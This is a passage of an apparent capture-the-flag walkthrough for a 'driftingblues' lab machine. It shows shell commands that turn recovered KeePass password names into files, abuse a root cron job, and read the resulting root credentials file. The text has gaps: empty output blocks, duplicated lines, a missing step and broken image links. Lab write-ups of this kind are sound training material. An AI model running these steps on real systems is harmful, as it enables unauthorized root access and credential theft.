




5.5 Create file with passwords
You have to create new files on the victim's machine inside the “/tmp” directory, and the name of the file should be the names from the keepas that we just found.
1. Create a file called “keys” with nano.
gill@driftingblues:/tmo$nano keys
2. Put one key per line.
2real4surreal
buddyretard
closet313
exalted
fracturedocean
zakkwylde
buddyretard
closet313
exalted
fracturedocean
zakkwylde
3. Save the file.
4. Create a file with every password.
gill@driftingblues:/tmp$while read key; do touch $key ;done < keys
5. List the files.
gill@driftingblues:/tmp$ls -l
Output:

6. Move the “fracturedocean” file to “/keyfolder”.
gill@driftingblues:/tmp$mv fracturedocean /keyfolder/
Note
Why the file “fracturedocean”? If you look on the following step after getting root you can see the “/root/key.sh” content and you'll find out that's the only file that create a file with the credentials and it's run by the cron.
Output:

8. Wait for a while until the cron runs the file.
9. List the “/keyfolder” directory files.
gill@driftingblues:/tmp$cd /keyfolder/
gill@driftingblues:/keyfolder$ls -al
gill@driftingblues:/keyfolder$ls -al
Output:

10. Get the “root” credentials.
gill@driftingblues:/keyfolder$cat rootcreds.txt
Output:
